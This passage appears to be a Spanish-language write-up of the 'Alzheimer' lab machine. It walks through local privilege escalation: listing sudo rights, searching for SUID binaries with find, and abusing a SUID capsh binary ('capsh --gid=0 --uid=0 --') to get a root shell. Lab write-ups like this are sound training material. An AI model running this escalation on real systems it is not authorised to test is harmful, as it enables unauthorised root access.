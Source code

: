 ```bash
medusa@alzheimer:~$ sudo -l
Matching Defaults entries for medusa on alzheimer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User medusa may run the following commands on alzheimer:
    (ALL) NOPASSWD: /bin/id
medusa@alzheimer:~$ sudo -u root /bin/id
uid=0(root) gid=0(root) groups=0(root)
medusa@alzheimer:~$ 
``` 

Pero bueno ver ficheros `SUID` 

```bash
medusa@alzheimer:/$ find \-perm -4000 -ls 2>/dev/null
     1249     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 ./usr/lib/dbus-1.0/dbus-daemon-launch-helper
    15846    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 ./usr/lib/openssh/ssh-keysign
   137057     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 ./usr/lib/eject/dmcrypt-get-device
       60     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 ./usr/bin/chsh
     8850    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 ./usr/bin/sudo
     3888     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 ./usr/bin/mount
     3415     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 ./usr/bin/newgrp
     3562     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 ./usr/bin/su
       63     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 ./usr/bin/passwd
       59     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 ./usr/bin/chfn
     3890     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 ./usr/bin/umount
       62     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 ./usr/bin/gpasswd
     5584     28 -rwsr-sr-x   1 root     root          26776 Feb  6  2019 ./usr/sbin/capsh
medusa@alzheimer:/$ 
```

El binario `./usr/sbin/capsh` ya llama la atencion si vamos a GTFObins ya vemos que podemos elevar nuestro privilegio <https://gtfobins.github.io/gtfobins/capsh/#suid> 

```bash
medusa@alzheimer:/$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:/# 
``` 

## Root flag 

![](/assets/images/hvm-writeup-alzheimer/web3.png)


